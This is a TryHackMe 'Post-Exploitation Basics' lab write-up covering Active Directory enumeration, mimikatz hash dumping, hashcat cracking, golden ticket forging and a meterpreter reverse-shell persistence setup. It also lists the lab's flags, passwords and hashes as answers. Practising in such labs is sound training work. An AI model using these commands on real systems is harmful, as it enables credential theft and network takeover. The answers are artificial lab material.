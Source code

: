 ##########
Twitter @SteveIrwinCyber
##########

# Post-Exploitation Basics
    Tryhackme.com
# Helpful links
    Powerview Tricks [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993]
-----------------------------------
### TASK 1: Enumeration Using Powerview

    Setup:
    powershell -ep bypass [to bypass execution policy]
    ..\Downloads\Powerview.ps1 [ start PowerView]  ****[ This did not seem to want to work for me, so instead I opened powershell ISE as administrator and ran it myself to fix the issue]****
    get-netuser | select cn [Enumerate Domain Users]
      Administrator
      Guest
      krbtgt
      Machine-1
      Admin2
      Machine-2
      SQL Service
      POST{P0W3RV13W_FTW}  ***[ Appears to be a flag]***
    get-netgroup -groupname *admin* [enumerate domain groups]

### Q1: What shared folder is there that is not default?
    Invoke-sharefinder [Note one does not say logon/default
      Share
### Q2: What OS is running inside the network besides Windows Server 2019?
    get-adcomputer -filter * -properties * | format-table Name,OperatingSystem
      DESKTOP-2 Windows 10 Enterprise Evaluation
      DESKTOP-1 Windows 10 Enterprise Evaluation
### Q3: Find a hidden flag inside of the users
     See Above
--------------------------------------------
### Task 2: Enumeration w/ Bloodhound
    Notably this took longer then expected, lots of test and failure
     Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip    
    Now I had to get off the box and SCP did not want to cooperate, even when adding new users because I did not know the password to root.
    I attempted to crack the root password when after 30 minutes I realiazed ** I AM ROOT*** and I forced the password change(Hopefully this doesn't mess anything up for others)

    neo4j console [ neo4j:neo4j ]
    bloodhound --no-sandbox [ because running as root ]
    ** For some reason I am prompted to change the default credentials to access bloodhound so open firefox and go to http://localhost:7474** 
    Now I went into my file and dumped all the JSON's into Bloodhound. ** I then ran into issues with trying to get it to work using the attack box, but my eventual solution was
    to copy the json over to my home Kali image and run it there through bloodhound.

### Q1: What service is also a domain admin
    SQLSERVICE

### Q2: What two users are kerberoastable

    SQLSERVICE,KRBTGT [Kerboastable User Dump Option ]
### Task 3: Dumping hashes w/mimikatz
    mimikatz.exe
    privilege::debug [ensure running as admin]
    lsadump::lsa /patch [ dump hashes ]
    hashcat -m 1000 <hash> rockyou.txt [ crack hash ]

     Q1: What is machine 1 Password
      Password1
    Q2: What is Machine2 Hash
      c39f2beb3d2ec06a62cb887fb391dee0 [ from dump ]
    Task 4: Golden Ticket Attacks w/mimikatz
      lsadump::lsa /inject /name:krbtgt
      write down SID + User NTLM Hash
    kerberos::golden /user:krbtgt /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfd [ Golden Ticket ]
    misc::cmd [ open admin CMD and can manuever network ]
### Task 5: Enumeration w/Server Manger

    Q1: What tool allows to view the event logs
      Event Viewer
    Q2: What is SQL Service password
      Server Manager -> Tools -> AD Users and computers 
      MYpassword123# [ description has password in it ]
### Task 6: Maintain Access
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe [ Tramsfer to Victim ]
    msfconsole -> use exploit/multi/handler [ creating listner ]
    execute shell.exe on victim and you should get your shell
    use exploit/windows/local/persistence [ setting persistence ]
    set session 1
    windows/meterpreter/reverse_tcp [ Sendind another meterpreter payload to machine to open up a new meterpreter  session ]
    run [ to execute ]
    ---------------

# ***************************
# CONGRATS YOU'VE COMPLETED IT
# ***************************
